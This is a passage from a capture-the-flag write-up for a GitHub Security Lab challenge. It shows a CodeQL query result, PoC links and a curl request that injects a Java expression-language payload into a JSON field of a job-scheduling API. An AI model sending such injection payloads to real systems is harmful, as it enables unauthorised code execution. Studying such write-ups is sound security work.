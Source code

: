 After that, the QL now can flow from source to sink:

![FinalResult](https://github.com/testanull/GHCTF-4-writeup/raw/master/vscode_done.jpg)

PoC video: https://www.youtube.com/watch?v=H-KsLicPfm8

PoC:
```
curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-type: application/json' \
    --data-binary $'{\x0d\x0a    \"applicationName\": \"localtest\",\x0d\x0a    \"owner\": {\"teamEmail\": \"me@me.com\"},\x0d\x0a    \"container\": {\x0d\x0a      \"image\": {\"name\": \"alpine\", \"tag\": \"latest\"},\x0d\x0a      \"entryPoint\": [\"/bin/sleep\", \"1h\"],\x0d\x0a      \"securityProfile\": {\"iamRole\": \"test-role\", \"securityGroups\": [\"sg-test\"]},\x0d\x0a\"softConstraints\": { \"constraints\": {\"#{\'\'.getClass()}\": \"hihi\"}}\x0d\x0a    },\x0d\x0a    \"batch\": {\x0d\x0a      \"size\": 1,\x0d\x0a      \"runtimeLimitSec\": \"3600\",\x0d\x0a      \"retryPolicy\":{\"delayed\": {\"delayMs\": \"1000\", \"retries\": 3}}\x0d\x0a    }\x0d\x0a  }' \
    'http://target:7001/api/v3/jobs'
```

QL: https://github.com/testanull/GHCTF-4-writeup/blob/master/PoC.ql

Thanks @pwntester and Github Security Lab for great challenge and nice tutorial!

